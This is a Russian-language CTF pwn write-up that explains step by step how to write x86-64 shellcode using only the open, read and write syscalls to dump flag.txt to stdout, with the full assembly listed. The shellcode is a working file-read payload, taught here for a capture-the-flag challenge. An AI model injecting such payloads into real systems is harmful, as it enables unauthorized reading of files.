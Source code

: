 Ну поехали, еще один шеллкод:

Теперь мы не можем получить rce, так как syscall execve отсутствует. Есть только open, read и write. Что ж, алгоритм понтяен: открываем файл, читаем файл, пишем в stdout. Приступим.

Заходим на [сайтик](https://filippo.io/linux-syscall-table/) и смотрим. Начнем с open.

![iamge](/resourses/pwn2.png)

Видим, что в целом не сильно отилчается от execve. Надо только понимать, что flags и mode нас интересуют равными 0. (это гуглится). Но есть одна загвоздка. Строка 'flag.txt\x00' содержит 9 байт, а регистр у нас помещается только 8 (у нас 64-битная система). Поэтому фокус как в execve не прокатит. Однако нам ничего не мешает сначала на стек положить 0, а потом 'flag.txt', что уже как раз 8 байт. И тогда все будет ок. Давайте сделаем:

```
[section .text]

global _start

_start:
	;;; open
    mov rax, 2
    mov rcx, 0
	push rcx
    mov rcx, 8392585648256674918
	push rcx
	mov rdi, rsp
	mov rsi, 0
	mov rdx, 0
    syscall
```

В rax мы положили 2, так как нас интересует колл опена, а он имеет номер 2. В левый регистр, в данном случае rcx, кладем 0, пушим на стек, кладем в него `u64(b'flag.txt')` (это число 8392585648256674918), пушим его на стек. В rdi передаем указатель на стек (вспоминаем из прошлого задания, что он находится в регистре rsp), в rsi и rdx кладем 0, вызываем syscall. Опен готов. Теперь в регистре rax у нас находится file_descriptor файла flag.txt, с помощью которого мы теперь можем прочитать файл. Теперь напишем read. Смотрим в табличку:

![image](/resourses/pwn3.png)

Видим, что в rdi нам нужен file descriptor, который у нас как раз в rax, в rsi нам нужен указатель на то, куда мы поместим прочитанные символы, а в rdx - количество читаемых символов.
Начнем с простого: в rdi поместим fd: `mov rdi, rax`. Давайте прочтем 0x100 символов: `mov rdx 0x100`. А теперь нам нужен указатель на буфер. На самом деле это сделать несложно: надо вычесть из адреса стека столько, сколько мы собираемся прочитать и передать адрес стека в регистр rsi. Вычитаем: `sub rsp, 0x100`, передаем в rsi: `mov rsi, rsp`. Ну и в rax надо пометсить 0, чтобы syscall мог вызвать read: `mov rax, 0`. Готово, теперь у нас на стеке лежит некоторое количество (0х100) символов из файла flag.txt. Что будет, если там нет столько символов? Он начнет читать какой то мусор, я сам не очень понимаю, что конкретно он читает. Но перед тем, как читать мусор, он прочитает файл. Полный код read:

```asm
    mov rdi, rax
	mov rdx, 0x100
	sub rsp, 0x100
	mov rsi, rsp
	mov rax, 0
	syscall
```

Остался write. Смотрим в табличку: 

![image](/resourses/pwn4.png)

В rdi надо передать fd. В нашем случае нам нужен stdout. Погуглив, понимаем, что надо просто передать 1 в этот регистр. В rsi надо поместить буфер - в нашем случае указатель на стек, а в rdx - количество символов (0x100). Вроде просто, поэтому выложу код сразу всей программы:

```
[section .text]

global _start

_start:
	mov rax, 2
    mov rcx, 0
	push rcx
	mov rcx, 8392585648256674918
	push rcx
	mov rdi, rsp
	mov rsi, 0
	mov rdx, 0
	syscall
	mov rdi, rax
	mov rdx, 0x100
	sub rsp, 0x100
	mov rsi, rsp
	mov rax, 0
	syscall
	mov rax, 1
	mov rdi, 1
	mov rsi, rsp
	mov rdx, 0x100
	syscall
```

Компилируем с помощью скрипта из предыдущей задачи, меняем порт на нужный в e.py и получаем флаг вместе с мусором!